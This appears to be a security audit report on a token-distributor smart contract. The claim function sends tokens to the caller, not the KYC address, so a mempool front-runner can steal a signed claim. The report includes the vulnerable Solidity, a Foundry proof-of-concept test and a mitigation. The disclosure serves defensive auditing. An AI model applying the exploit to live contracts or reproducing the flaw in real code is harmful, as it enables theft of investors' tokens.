 Acrobatic Tin Hippo

High

# User can front-run claim of rewards

### Summary

Since mainnet and bnb chain are among chains that are part of where the contracts will be deployed, front-running of claim is possible to allow malicious users to claim tokens for KYCed users previously investing. 

> Eth, base, bnb, avalanche, polkadot, arbitrum

### Root Cause

An user claiming tokens for previous investments would be provided a valid signature by the protocol checked by `_isSignatureValid`. The root cause lies in the line 130-136, where the user calling would receive the tokens, instead of sending it to the kycAddress, which is the expected behavior noted in [tests](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/test/vc/VVVVCTokenDistributor.unit.t.sol#L104)

By front-running the inputs within the mempool and precomputing the params, a malicious user can invoke claim for the KyCed address before they can do so.

```solidity
    function claim(ClaimParams memory _params) public {
        if (claimIsPaused) {
            revert ClaimIsPaused();
        }

        if (_params.projectTokenProxyWallets.length != _params.tokenAmountsToClaim.length) {
            revert ArrayLengthMismatch();
        }

        if (_params.nonce <= nonces[_params.kycAddress]) {
            revert InvalidNonce();
        }

        if (!_isSignatureValid(_params)) {
            revert InvalidSignature();
        }

        // update nonce
        nonces[_params.kycAddress] = _params.nonce;

        // define token to transfer
        IERC20 projectToken = IERC20(_params.projectTokenAddress);

        // transfer tokens from each wallet to the caller
        for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
            projectToken.safeTransferFrom(
                _params.projectTokenProxyWallets[i],
   @>           msg.sender,
                _params.tokenAmountsToClaim[i]
            );
        }

        emit VCClaim(
            _params.kycAddress,
            _params.projectTokenAddress,
            _params.projectTokenProxyWallets,
            _params.tokenAmountsToClaim,
            _params.nonce
        );
    }
```

### Internal pre-conditions

A valid signature must be provided to KyCed address claiming tokens

### External pre-conditions

Needs to front-run the user claiming before it is performed

### Attack Path

See PoC/Root Cause

### Impact

Loss of intended claimed tokens for KyCed address for previous investments

### PoC

Add and run the following `forge test --mt testClaimSingleRoundMaliciousUser` in VVVVCTokenDistributor.unit.t.sol

```solidity
    function testClaimSingleRoundMaliciousUser() public {
        address[] memory thisProjectTokenProxyWallets = new address[](1);
        uint256[] memory thisTokenAmountsToClaim = new uint256[](1);

        thisProjectTokenProxyWallets[0] = projectTokenProxyWallets[0];

        uint256 claimAmount = sampleTokenAmountsToClaim[0];
        thisTokenAmountsToClaim[0] = claimAmount;

        VVVVCTokenDistributor.ClaimParams memory claimParams = generateClaimParamsWithSignature(
            sampleKycAddress,
            thisProjectTokenProxyWallets,
            thisTokenAmountsToClaim
        );
        address bob = makeAddr("bob");
        claimAsUser(bob, claimParams);
        assertTrue(ProjectTokenInstance.balanceOf(bob) == claimAmount);
    }

```

### Mitigation

Only allow the appropriate KyCed address to call `claim` or send the funds directly to the KyCed address instead of the caller of `claim`